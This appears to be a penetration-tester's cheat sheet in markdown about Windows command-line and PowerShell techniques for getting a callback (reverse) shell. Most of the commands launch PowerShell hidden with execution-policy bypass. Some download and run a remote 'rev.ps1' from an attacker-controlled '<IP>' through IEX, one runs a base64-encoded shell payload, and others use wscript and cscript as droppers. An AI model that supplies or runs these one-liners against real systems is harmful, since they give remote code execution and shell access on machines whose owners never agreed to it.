 # Windows

## 01 - Command Prompt

### 1.1 - Basics

#### 1.1.1 - Callback Shell

- System32 is for 32-bit powershell payloads

`C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1`

`C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1`

`C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/rev.ps1')"`

- SysWOW64 is for 64-bit powershell payloads

`C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f file.ps1`

#### 1.1.2 - WSH scripts droppers

- When deploying reverse shells as droppers or toolings with the following formats

`C:\> wscript.exe <script.js | script.vbs>`

`C:\> cscript.exe <script.js | script.vbs | script.cs>`

## 02 - Powershell

### 2.1 - Basics

`PS C:\> Get-Command <command>`

`PS C:\> Get-Command -Module <powershell_module>`

`PS C:\> IEX (iwr -UseBasicParsing http://<IP>/rev.ps1);`

### 2.2 - Base64

#### 2.2.1 - Callback Shell Connection

- Execute a callback shell

`PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('<base64_encoded>'))))`

## References

- [ss64.com Powershell](https://ss64.com/ps/powershell.html)